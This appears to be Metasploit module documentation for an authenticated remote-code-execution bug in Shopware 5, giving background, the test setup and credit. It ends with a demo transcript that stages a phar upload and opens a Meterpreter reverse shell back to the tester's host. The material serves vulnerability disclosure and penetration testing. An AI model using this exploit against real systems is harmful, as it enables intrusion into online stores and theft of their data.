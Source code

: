 ## Background

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a vulnerability was discovered initially by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to discovering an XXE exploitation primitive. Later on, mr_me bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 w/ mod rewrite / PHP 7.2.15 w/ zip, gd, ctype, curl, dom, hash, iconv, json, session, mbstring, simplexml, xml, pdo_mysql and fileinfo

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

## References

- [https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

## Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

## Credit

Steven Seeley (mr_me) of Source Incite

## Demo

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=kitv5998u4qu2o1sq25v4kvv1j;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - generated our phar
[+] Stage 4 - leaked the CSRF token: eQ25IftJ3NGKx2WXBG4b00dTeoA8Pj
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6f/fc/7f/mlofhujx.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:33254) at 2019-05-09 14:44:46 -0500
[!] This exploit may require manual cleanup of 'qdvtvgqu.php' on the target
[!] This exploit may require manual cleanup of 'image/6f/fc/7f/mlofhujx.jpg' on the target

meterpreter > 
[+] Deleted qdvtvgqu.php
[+] Deleted image/6f/fc/7f/mlofhujx.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```